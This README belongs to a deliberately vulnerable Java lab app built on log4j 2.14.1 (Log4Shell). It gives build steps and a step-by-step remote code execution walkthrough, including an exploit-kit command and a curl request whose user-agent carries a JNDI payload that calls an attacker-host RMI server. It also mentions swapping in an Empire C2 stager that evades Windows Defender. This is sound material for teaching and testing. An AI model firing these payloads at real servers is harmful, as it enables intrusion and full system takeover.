 # log4shell vulnerable app

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

### running with gradle wrapper

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bat appRun
```

JDK is needed. Versions 8 and 11 were tested and are working, 17 seems to
have issues.

### building a portable fat jar

This method builds a one-file portable fat JAR including an embedded
Tomcat server.

Simply run the gradle wrapper with the configured `shadowJar' task:

```
./gradlew shadowJar
```

or on Windows platform:

```
.\gradlew.bat shadowJar
```

The compiled and packages JAR file will be built in the folder `./build/libs`.

It is portable and can be launched using JRE:

```
java -jar ./build/libs/log4shell-vulnerable-app-all.jar
```

The all-in-one portable JAR is available on the [releases page](https://github.com/tothi/log4shell-vulnerable-app/releases) here in the repo.

### interacting with the vulnerable application

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "user-agent". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'user-agent: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "user-agent" header: `curl http://192.168.56.101:8888/app/servlet -H 'user-agent: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "user-agent" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "user-agent" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.

![](./log4shell_rce_demo.png)

UPDATE: here is an extra PoC screenshot for those who are curious and doubt whether launching a calc.exe is useful for anything at all. In this screenshot, replaced the calc.exe payload with an Empire stager giving a full featured C2 Empire Agent (also bypassing up-to-date Windows Defender).

![](./log4shell_rce_demo_empire.png)
